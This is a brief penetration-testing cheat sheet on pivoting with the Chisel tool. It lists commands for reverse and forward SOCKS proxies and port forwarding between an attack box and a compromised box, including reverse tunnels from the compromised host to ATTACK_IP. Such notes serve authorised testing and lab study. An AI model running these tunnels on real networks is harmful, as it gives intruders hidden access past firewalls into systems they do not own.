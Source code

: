 # Chisel  

Proxy and port forwarding with ssh not required.  

## Reverse SOCKS proxy.  

On attack box.  

`./chisel server -p LISTEN_PORT --reverse &`

On compromised box.  

`./chisel client ATTACK_IP:LISTEN_PORT R:socks &`  

## Forward SOCKS proxy.  

Less common as inbound firewalls are more stringent than outbound.  

On compromised box.  

`./chisel server -p LISTEN_PORT --socks5`  

On attack box.  

`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`  

If SOCKS5 or SOCKS4 is being used, proxychains.conf needs to be edited to match the socks protocol.  

## Remote Port Forwarding.  

On attack box.  

`./chisel server -p LISTEN_PORT --reverse &`  

On compromised box.  

`./chisel client ATTACK_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`  

## Local Port Forwarding.  

On compromised box.  

`./chisel server -p LISTEN_PORT`  

On attack box.  

`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`
